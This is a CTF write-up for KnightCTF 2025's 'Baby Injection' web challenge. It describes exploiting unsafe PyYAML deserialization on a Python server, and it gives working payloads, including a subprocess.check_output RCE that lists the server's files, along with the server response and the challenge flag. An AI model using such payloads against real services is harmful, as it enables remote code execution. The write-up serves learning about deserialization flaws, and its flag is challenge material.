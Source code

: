 ```yaml
---
title: "Baby Injection"
description: "Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#baby-injection)

We are given a webserver which displays some text and has a base64 string at the end:
`http://172.105.121.246:5990/eWFt...`

Decoding that string we see the following:
```
yaml: <text here>
```

This seems to be some sort of YAML injection, so let's look at what the server is running with.

The webserver is running with **Python** according to the headers in the response (no screenshot sorry, it was very clear I promise).

Looking at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml) there is a section for a library called `PyYAML`.

I try a basic payload: `!!python/object/apply:builtins.range [1, 10, 1]`.


The server response is `range(1,10)`, perfect!!

I try an RCE to list the files in the current directory: `yaml: !!python/object/new:subprocess.check_output [['ls', '-la']]`.

The webserver responds with the following (thanks to `abl` for supplying the response post CTF):
```
[{&#39;test&#39;: {b&#34;total 32\ndrwxr-xr-x 1 root root 4096 Jan 21 01:22 .\ndrwxr-xr-x 1 root root 4096 Jan 20 21:15 ..\n-rw-r--r-- 1 root root  500 Jan 20 21:08 Dockerfile\n-rw-r--r-- 1 root root    0 Jan 20 22:56 KCTF{d38787fb0741bd0efdad8ed01f037740}\n-rw-r--r-- 1 root root    0 Jan 20 22:56 Why didn&#39;t they set this as read only\n-rw-r--r-- 1 root root    0 Jan 20 22:56 a\n-rw-r--r-- 1 root root   86 Jan 20 22:43 a.txt\ndrwxr-xr-x 3 root root 4096 Jan 20 21:13 app\n-rw-r--r-- 1 root root    0 Jan 21 00:34 hey.txt\n-rw-r--r-- 1 root root   27 Jan 20 20:59 requirements.txt\n-rwxr-xr-x 1 root root  128 Jan 20 21:15 start.sh\ndrwxr-xr-x 2 root root 4096 Jan 21 01:23 static\n-rw-r--r-- 1 root root    0 Jan 20 22:56 what if someone overwrite the flag??\n-rw-r--r-- 1 root root    0 Jan 20 23:04 zab.txt\n&#34;: None}}]
```

This contains the flag!

Flag: `KCTF{d38787fb0741bd0efdad8ed01f037740}`
